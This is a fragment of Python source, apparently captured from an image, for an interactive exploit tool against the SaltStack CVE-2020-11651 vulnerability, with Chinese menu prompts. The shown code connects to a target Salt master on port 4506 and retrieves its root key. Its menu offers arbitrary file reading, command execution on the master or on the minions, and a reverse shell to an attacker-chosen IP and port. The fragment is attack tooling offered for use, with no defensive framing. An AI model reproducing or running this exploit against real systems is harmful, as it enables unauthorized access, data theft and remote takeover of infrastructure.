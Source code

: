 ```python
        try:
            response = channel.send(msg, timeout=3)
            if response == None:
                return True
            else:
                return False
        except:
            return False


#####################################

master_ip=input('目标IP：')
master_port='4506'
channel = init_minion(master_ip, master_port)
try:
    root_key = check_CVE_2020_11651(channel)
except:
    pass
while master_ip!='':
    print('1.测试POC  2.读取文件  3.执行命令(无回显)  4.反弹shell  5.退出')

    whattype=input('请选择：')
    if whattype=='1':
        check_salt_version()  # 检查salt版本
        check_connection(master_ip, master_port, channel)  # 检查连接
        root_key = check_CVE_2020_11651(channel)  # 读取root key
        print(root_key)
    elif whattype=='2':
        path = input('读取路径：')
        try:
            pwn_read_file(channel, root_key, path, master_ip)  # 读取文件
        except:
            print('文件不存在')
    elif whattype=='3':
        print('1.master   2.minions')
        exectype = input('选择方式：')
        if exectype=='1':
            master_or_minions='master'
        elif exectype=='2':
            master_or_minions = 'minions'
        exec_cmd = input('输入命令：')
        pwn_exec(channel, root_key, exec_cmd, master_or_minions)  # 执行命令
    elif whattype=='4':
        LHOST = input('反弹到IP：')
        LPORT = input('反弹端口：')
        pwn_getshell(channel, root_key, LHOST, LPORT)  # 反弹shell
    elif whattype=='5':
        exit()
```
